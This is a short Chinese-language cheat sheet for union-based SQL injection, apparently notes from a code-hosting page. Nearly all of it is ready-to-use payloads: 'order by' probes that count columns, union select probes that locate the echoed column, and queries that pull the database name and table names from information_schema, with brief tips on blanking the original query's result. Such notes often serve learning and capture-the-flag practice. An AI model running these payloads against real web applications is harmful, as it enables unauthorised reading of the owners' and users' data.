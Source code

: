 #### 猜测字段

+ order/group语句

```sql
1' order by 1#
1' order by 2#
1' order by 3#
1 order by 1
1 order by 2
1 order by 3
```

+ union联合查询

```sql
1' union select 1#
1' union select 1,2#
1' union select 1,2,3#
1 union select 1#
1 union select 1,2#
1 union select 1,2,3#
```

#### 判断回显位

根据获取的字段数，使用union select 联合查询，查看页面回显

```sql
-1' union select 1#
-1' union select 1,2#
-1' union select 1,2,3#
-1 union select 1#
-1 union select 1,2#
-1 union select 1,2,3#
```

**注意**

>1. 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面进行的是单行数据输出，我们让前边的 select 查询条件返回结果为空即可。
>
>2. ⼀定要拼接够足够的字段数，否则SQL语句报错。

#### 查询数据

+ 数据库名

```sql
-1' union select 1,2,database()--+
```

+ 表名

```sql
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+

-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
```
